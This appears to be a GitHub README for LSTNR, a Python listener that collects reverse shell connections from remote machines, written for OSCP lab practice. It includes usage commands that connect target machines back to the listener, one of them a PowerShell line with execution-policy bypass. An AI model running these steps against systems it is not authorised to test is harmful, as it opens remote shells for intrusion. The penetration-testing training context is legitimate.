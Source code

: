 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`
    - 
<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
 
     <img width="736" alt="Screenshot 2025-01-03 at 6 34 33 PM" src="https://github.com/user-attachments/assets/6dc676a0-4af2-4eb3-b3df-8ecd42e274dd" />
   
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
<img width="666" alt="Screenshot 2025-01-03 at 6 35 10 PM" src="https://github.com/user-attachments/assets/68d38103-f333-4525-9a56-f82b1b09c7cc" />
